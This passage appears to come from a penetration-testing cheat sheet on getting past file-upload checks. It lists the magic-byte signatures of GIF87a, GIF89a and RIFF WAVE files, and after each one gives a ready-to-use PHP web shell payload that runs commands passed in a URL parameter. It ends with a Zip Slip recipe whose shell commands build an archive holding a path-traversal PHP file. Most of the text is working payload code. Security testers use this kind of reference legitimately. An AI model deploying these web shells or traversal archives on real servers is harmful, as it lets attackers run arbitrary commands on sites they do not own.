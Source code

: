 - **Option 1**

    **GIF87a** is the original format for indexed color images. It uses LZW compression and has the option of being interlaced.

    Hex signature: **`47 49 46 38 37 61`**  
    ISO 8859-1: **`GIF87a`**  

    Payload example:  

    ```php
    GIF87a
    <?php echo system($_GET['cmd']); ?>
    ```

- **Option 2**

    **GIF89a** is the same, but also includes transparancy and animation capabilities.

    Hex signature: **`47 49 46 38 39 61`**  
    ISO 8859-1: **`GIF89a`**  

    Payload example:

    ```php
    GIF89a
    <?php echo system($_GET['cmd']); ?>
    ```

<br />

### RIFF WAVE

Hex signature: **`52 49 46 46 ?? ?? ?? ?? 57 41 56 45`**  
ISO 8859-1: **`RIFF????WAVE`**  

Payload example:

```bash
RIFF????WAVE
<?php echo system($_GET['cmd']); ?>
```

<br /><br />

## Zip

If target website restricts uploads to zip files only, the website (server) may unzip uploaded files internally and displays the result of decompressed file somewhere e.g. `/upload/example.txt`.

### Zip Slip

Create a file containing ‘../’ in the filename, and compress this file.

```bash
echo '<?php echo system("id");?>' > '../test.php'
zip test.zip '../test.php'
```
